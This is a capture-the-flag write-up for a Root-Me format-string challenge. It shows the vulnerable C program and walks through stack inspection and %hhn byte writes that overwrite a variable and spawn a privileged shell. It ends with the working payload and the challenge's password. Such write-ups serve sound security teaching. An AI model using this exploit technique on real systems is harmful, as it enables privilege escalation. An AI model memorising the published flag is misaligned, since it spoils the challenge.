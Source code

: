 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br>
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch14\@challenge02.root-me.org
- Password:&emsp;app-systeme-ch14

![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)

## Write-up:

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
References:

[%n format specifier](https://www.geekforgeeks.org/g-fact-31/)<br>

Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to "scan" the stack<br>
`./ch14 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`<br>
Output:

![image](https://user-images.githubusercontent.com/48288606/146907436-2d2cfdb9-ab69-411b-a6e7-2366ba28adb9.png)

- As shown, the "AAAA" value is written in 9th of format string, we can prepare our value to this location.
- There are 2 ways to get **"deadbeef"** value. We can split it into 4 bytes or 2 bytes, the more division, the more relief execution time is. So i take second method.
- Split `0xdeadbeef` into 4 bytes and we will overwrite  with "little-endian" order. `0xef`, `0xbe`, `0xad`, `0xde` and convert to decimal for calculating for later as below:
```
>>> int(0xef)
239
>>> int(0x1be)
446
>>> int(0x2ad)
685
>>> int(0x3de)
990
```
- We have to make these value increase continously in our stack so we ensure that **0xef < 0x1be < 0x2ad < 0x3de** and then we use **%hhn** to get 1 byte value to have our desired values. (We can use **%hn** if we use the first method - split into 2 parts of 2 bytes). Then we calculate the value to add between these bytes to get specific value. 
  - We already have 16 bytes address, to get the right value of first byte. We pad more **239 - 16 = 223**
  - We already have 239 bytes above, to get the right value of first byte. We pad more **446 - 239 = 207**
  - We already have 446 bytes above, to get the right value of first byte. We pad more **685 - 446 = 239**
  - We already have 685 bytes above, to get the right value of first byte. We pad more **990 - 685 = 305**

Then we will change the value of **check** in its address (the program 's already shown it in output). Here's the layout of what we've done:

![image](https://user-images.githubusercontent.com/48288606/146911826-3d6f1aa6-cec3-4516-83da-dbaae0f18105.png)

Payload: `./ch14 $(python -c "print('\x98\xfa\xff\xbf' + '\x99\xfa\xff\xbf' + '\x9a\xfa\xff\xbf' + '\x9b\xfa\xff\xbf' + '%223d%9\$hhn' + '%207d%10\$hhn' + '%239d%11\$hhn' + '%305d%12\$hhn')")`

Pass: 1l1k3p0Rn&P0pC0rn


